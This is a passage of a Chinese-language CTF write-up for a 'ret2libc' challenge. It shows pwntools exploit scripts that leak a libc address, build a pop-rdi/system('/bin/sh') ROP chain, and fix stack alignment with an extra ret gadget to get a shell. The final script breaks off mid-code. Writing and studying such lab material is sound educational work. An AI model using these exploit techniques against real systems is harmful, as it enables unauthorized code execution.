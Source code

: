 ```py=

r.sendlineafter('>> ', '3')

payload = b'A' * (0x70 + 0x8) + p64(pop_rdi) + p64(bin_sh) + p64(system)
r.sendlineafter('Leave a message: ', payload)
r.interactive()
```

不過執行起來會發現發生了 SIGSEGV，可能需要接上 gdb 查看狀況
![image](https://hackmd.io/_uploads/BkuAaa660.png)

執行到 return address 的部分會發現我們確實成功控制了執行流程，不過繼續看下去會發現又會停在 movaps xmmword ptr、not aligned to 16 bytes 的部分，那這邊通常會直接接上一個 ret 讓他可以對齊，那會發現 pop_rdi 事實上是 pop rdi ; ret，所以我們可以直接用 pop_rdi + 1 即可獲得 ret

![image](https://hackmd.io/_uploads/SyVvApppC.png)

![image](https://hackmd.io/_uploads/r13YApT6R.png)

加上 ret 後會像是這樣

```py=
from pwn import *

r = process('./ret2libc')
# gdb.attach(r)
context.terminal = ['tmux', 'splitw', '-h']
r.sendlineafter('>> ', '2')
r.sendlineafter('Index: ', '11')
r.recvuntil('Number: ')
Index11 = int(r.recvline().strip())
print(f'Index 11: {hex(Index11)}')
libc_base = Index11 - 0x29d90
log.info(f'Libc base: {hex(libc_base)}')

pop_rdi = libc_base + 0x000000000002a3e5
bin_sh = libc_base + 0x1d8678
system = libc_base + 0x50d70
ret = pop_rdi + 1

r.sendlineafter('>> ', '3')

payload = b'A' * (0x70 + 0x8) + p64(pop_rdi) + p64(bin_sh) + p64(ret) + p64(system)
r.sendlineafter('Leave a message: ', payload)
r.interactive()
```

執行後會發現在 local 端可以確實拿到 shell，所以原則上可以將題目架起來並連上遠端拿到 flag 了

![image](https://hackmd.io/_uploads/By5U1CaaC.png)

完整 exploit：

```py=
from pwn import *

# r = process('../ret2libc/share/ret2libc')
r = remote('127.0.0.1', 10005)

r.sendlineafter('>> ', '2')
r.sendlineafter('Index: ', '11')
number = int(r.recvline().strip().split(b': ')[1])
libc_base = number - 0x29d90
log.info(f'Libc: {hex(libc_base)}')
pop_rdi = libc_base + 0x2a3e5
system = libc_base + 0x50d70
bin_sh = libc_base + 0x1d8678
```